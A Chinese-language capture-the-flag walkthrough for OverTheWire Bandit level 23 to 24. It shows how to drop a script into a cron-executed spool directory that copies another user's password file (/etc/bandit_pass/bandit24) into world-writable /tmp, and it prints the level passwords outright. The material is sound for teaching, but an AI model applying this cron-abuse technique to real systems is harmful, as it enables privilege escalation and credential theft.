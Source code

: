 # Bandit Level 23 → Level 24 攻略 📜

## 关卡目标 🎯

本关卡的目标是分析一个以bandit24用户身份运行的cron任务，编写一个脚本来获取下一关的密码，并将该脚本放在`/var/spool/bandit24/`目录中执行。

## 所需知识 📚

### Cron定时任务 ⏱️

与前两关类似，我们需要了解cron定时任务的基本概念和配置。

### Shell脚本编写 📝

我们需要编写一个shell脚本来获取密码。

### 文件权限和目录权限 🔒

我们需要确保我们创建的脚本具有正确的权限，以便bandit24用户可以执行它。

### 临时目录和文件 📂

我们需要使用临时目录来存储我们的脚本和输出文件。

## 详细解题步骤 📝

### 1. 登录游戏服务器 🔐

使用上一关获得的密码登录服务器：

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

密码：`jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

### 2. 查看cron任务 👀

首先，我们需要查看与bandit24相关的cron任务：

```bash
cat /etc/cron.d/cronjob_bandit24
```

输出结果应该类似于：

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

这表明系统会在每次重启时以及每分钟以bandit24用户的身份执行`/usr/bin/cronjob_bandit24.sh`脚本。

### 3. 查看cron脚本 📜

现在我们需要查看`/usr/bin/cronjob_bandit24.sh`脚本的内容：

```bash
cat /usr/bin/cronjob_bandit24.sh
```

输出结果应该类似于：

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

这个脚本做了以下几件事：
1. 使用`whoami`命令获取当前用户名，并将结果存储在`myname`变量中
2. 切换到`/var/spool/$myname`目录（即`/var/spool/bandit24`）
3. 遍历该目录中的所有文件
4. 对于每个文件，检查其所有者是否为bandit23
5. 如果所有者是bandit23，则执行该文件（最多运行60秒）
6. 执行后删除该文件

这意味着我们可以在`/var/spool/bandit24`目录中创建一个脚本，该脚本将以bandit24用户的身份执行，然后我们可以使用该脚本读取bandit24的密码。

### 4. 创建临时目录 📂

首先，我们需要创建一个临时目录来存储我们的脚本和输出文件：

```bash
mkdir -p /tmp/bandit23_to_24
chmod 777 /tmp/bandit23_to_24
```

### 5. 编写脚本 📝

现在我们需要编写一个脚本，该脚本将读取bandit24的密码并将其写入我们的临时目录：

```bash
nano /tmp/bandit23_to_24/get_password.sh
```

在编辑器中输入以下内容：

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit23_to_24/password.txt
chmod 666 /tmp/bandit23_to_24/password.txt
```

保存并退出编辑器（在nano中，按Ctrl+O保存，然后按Ctrl+X退出）。

### 6. 设置脚本权限 🔒

我们需要确保脚本具有执行权限，并且所有者是bandit23：

```bash
chmod 777 /tmp/bandit23_to_24/get_password.sh
```

### 7. 复制脚本到cron目录 📋

现在我们需要将脚本复制到`/var/spool/bandit24`目录，以便它被cron任务执行：

```bash
cp /tmp/bandit23_to_24/get_password.sh /var/spool/bandit24/
```

### 8. 等待脚本执行 ⏱️

cron任务每分钟执行一次，所以我们需要等待一段时间（最多一分钟）让脚本执行：

```bash
sleep 60
```

### 9. 查看密码文件 🔑

现在我们可以查看脚本生成的密码文件：

```bash
cat /tmp/bandit23_to_24/password.txt
```

输出结果应该显示bandit24的密码：

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## 命令解释 🔍

- `mkdir -p /tmp/bandit23_to_24`：
  - `mkdir`：创建目录
  - `-p`：如果需要，创建父目录
  - `/tmp/bandit23_to_24`：要创建的目录
- `chmod 777 /tmp/bandit23_to_24`：
  - `chmod`：更改文件权限
  - `777`：设置权限为所有用户可读、可写、可执行
  - `/tmp/bandit23_to_24`：目标目录
- `nano /tmp/bandit23_to_24/get_password.sh`：
  - `nano`：文本编辑器
  - `/tmp/bandit23_to_24/get_password.sh`：要编辑的文件
- `cp /tmp/bandit23_to_24/get_password.sh /var/spool/bandit24/`：
  - `cp`：复制文件
  - `/tmp/bandit23_to_24/get_password.sh`：源文件
  - `/var/spool/bandit24/`：目标目录

## 学习要点总结 📌

1. **Shell脚本编写** - 学习了如何编写简单的shell脚本
2. **文件权限设置** - 了解了如何设置文件和目录的权限
3. **Cron任务利用** - 学习了如何利用cron任务执行特权操作
4. **临时文件和目录** - 了解了如何使用临时文件和目录进行数据传递

## 提示 💡

- 在编写脚本时，确保脚本具有正确的权限，以便目标用户可以执行它
- 使用临时目录时，确保设置适当的权限，以便可以读取和写入文件
- 在实际系统中，应该避免设置过于宽松的权限（如777），这可能导致安全风险
- cron任务是自动化系统管理的强大工具，但也可能被滥用，因此应该谨慎配置

## 下一步 ⏭️

使用获得的密码登录到Level 24：

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

密码：`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

## 相关资源 🔗

- [Bash脚本编程指南](./resource/level23→level24/Bash脚本编程指南.md)
- [Linux文件权限详解](./resource/level23→level24/Linux文件权限详解.md)
- [Cron定时任务安全最佳实践](./resource/level23→level24/Cron定时任务安全最佳实践.md)
